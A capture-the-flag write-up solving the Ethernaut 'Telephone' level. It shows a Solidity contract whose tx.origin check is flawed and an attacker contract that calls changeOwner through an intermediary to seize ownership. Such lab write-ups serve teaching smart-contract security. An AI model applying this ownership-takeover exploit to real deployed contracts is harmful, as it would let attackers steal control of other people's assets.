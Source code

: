 ## Ethernaut Level 04 - Telephone - Write-Up
<!--Authors: OofedUp-->

Difficulty: 1/10

![image](https://i.imgur.com/5CnRjQc.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

We just need to call the `changeOwner()` function from a contract, since `tx.origin` does not detect the sender address if it is coming from a contract (`tx.origin` detects the address of the chain's start. In this case, it was my address, not the contract's, since I deployed it). We will use [Remix](https://remix.ethereum.org) where we can create the following contract:

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract DialUp {
    Telephone main;

    function DialUp(){
        main = Telephone(INSTANCE ADDRESS);
    }
    function setOwner() public{
        //Player address
        main.changeOwner(PLAYER ADDRESS);
    }
}
```

We then change the owner to the player's address by calling `DialUp.setOwner()`. We can then submit the contract:

![image](https://i.imgur.com/be9wemr.png)

